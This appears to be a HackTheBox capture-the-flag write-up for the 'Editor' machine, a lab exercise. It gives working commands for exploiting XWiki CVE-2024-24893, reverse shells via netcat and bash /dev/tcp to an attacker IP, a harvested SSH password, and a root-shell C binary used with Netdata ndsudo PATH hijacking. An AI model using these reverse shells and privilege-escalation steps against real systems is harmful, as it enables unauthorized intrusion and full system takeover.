








# Editor

**Category:** Machine  
**Difficulty:** Easy  
**Platform:** HackTheBox

## Machine Description

Editor is a easy-difficulty machine that involves web application vulnerabilities in XWiki, followed by privilege escalation through Netdata's ndsudo plugin. The machine demonstrates the importance of keeping web applications and monitoring tools updated, showcasing how misconfigured monitoring tools can lead to complete system compromise.

## Initial Reconnaissance

### Port Scanning

```bash
nmap -n -Pn --min-rate=5000 -sV -sC -oA ./host/htb/editor/tcp-allports editor.htb -p-
```



## Exploitation

### Step 1: XWiki Vulnerability Discovery



Discovered that the target is running a vulnerable version of XWiki. Research led to [CVE-2024-24893](https://nvd.nist.gov/vuln/detail/CVE-2024-24893), a critical vulnerability that allows remote code execution through improper input validation.

### Step 2: Initial Reverse Shell

Using the `CVE-2024-24893` exploit, I established an initial reverse shell:

```bash
python3 CVE-2024-24893.py -t 'http://editor.htb:8080' -c 'busybox nc 10.10.14.122 6666 -e /bin/bash'
```

### Step 3: Shell Upgrade

Created a more stable and interactive reverse shell using bash's built-in TCP capabilities:

```bash
bash -i >& /dev/tcp/10.10.14.122/31337 0>&1
```



### Step 4: Credential Discovery

Searched for XWiki configuration files in the `/etc/xwiki` directory and discovered credentials in the `/etc/xwiki/hibernate.cfg.xml` file. Cross-referencing with `/etc/passwd` revealed user `oliver` who likely configured XWiki and used the same password for SSH access.

**Password discovered:** `theEd1t0rTeam99`



### Step 5: Initial Access

Successfully authenticated via SSH as user `oliver` and obtained the user flag:

```bash
sshpass -p theEd1t0rTeam99 ssh -o StrictHostKeyChecking=no -o UserKnownHostsFile=/dev/null oliver@editor.htb
```



## Privilege Escalation

### Step 1: Sudo Enumeration

Checked user privileges and discovered that `oliver` cannot execute sudo commands:

### Step 2: Local Network Analysis

Examined local network services using `ss`:

```bash
ss -tulnp
```



**Discovered Services:**
- **Port 33060**: MySQL X Protocol (MySQL 8.0+) - Advanced database features
- **Port 8125**: StatsD - Metrics collection service
- **Port 19999**: Netdata - Real-time system monitoring dashboard
- **Port 3306**: MySQL (traditional protocol) - Database connections

All services were bound to localhost (127.0.0.1), making them inaccessible from external networks.

### Step 3: SSH Tunneling

Established SSH tunnel using `oliver`'s credentials to access local services:

```bash
sshpass -p theEd1t0rTeam99 ssh -N -L 19999:127.0.0.1:19999 -o StrictHostKeyChecking=no -o UserKnownHostsFile=/dev/null oliver@editor.htb
```

### Step 4: Netdata Vulnerability Discovery

Accessed the Netdata dashboard through the tunnel and discovered agent version 1.45.2, which is vulnerable to [CVE-2024-32019](https://nvd.nist.gov/vuln/detail/CVE-2024-32019).



### Step 5: ndsudo Analysis

Located the `ndsudo` executable in the Netdata plugins directory:

```bash
find / -type f -executable -name "ndsudo" 2>/dev/null
```

**Path:** `/opt/netdata/usr/libexec/netdata/plugins.d/ndsudo`

Confirmed that `oliver` could execute this command.

### Step 6: Exploit Development

Research revealed that `ndsudo` trusts the `nvme` command. Created a malicious binary that:

1. **Sets UID and GID to 0** (root privileges)
2. **Spawns an interactive bash shell** with root access

**Malicious Code:**
```c
#include <unistd.h>

int main() {
  setuid(0);
  setgid(0);
  execl("/bin/bash", "bash", "-i", NULL);
  return 0;
}
```

### Step 7: Final Exploitation

Compiled the malicious code and transferred it to the target:

```bash
gcc -o nvme malicious.c
```

Started an HTTP server to transfer the malicious binary to the target:

```bash
python3 -m http.server 31337 --bind 0.0.0.0 | \
  sed -e 's/^HTTP\/1.0 200 OK/HTTP\/1.0 200 OK\nAccess-Control-Allow-Origin: *\n/'
```

Transfer the binary to the target:

```bash
curl 10.10.14.122:31337/nvme -o /tmp/nvme
```

Added the binary to the PATH and executed it through ndsudo:

```bash
chmod +x /tmp/nvme
export PATH=/tmp:$PATH
/opt/netdata/usr/libexec/netdata/plugins.d/ndsudo nvme-list
```



## Tools Used

- **Nmap** - Port scanning and service enumeration
- **CVE-2024-24893 exploit** - XWiki vulnerability exploitation
- **Python HTTP server** - File transfer
- **GCC** - Malicious binary compilation
- **SSH tunneling** - Local service access
- **Netdata ndsudo** - Privilege escalation vector

## Summary

[Editor has been Pwned](https://labs.hackthebox.com/achievement/machine/2245732/684)

The machine was successfully compromised through XWiki CVE-2024-24893 → Credential discovery → SSH access → Netdata CVE-2024-32019 → ndsudo privilege escalation via malicious binary execution. This demonstrates the importance of comprehensive security practices across all system components.
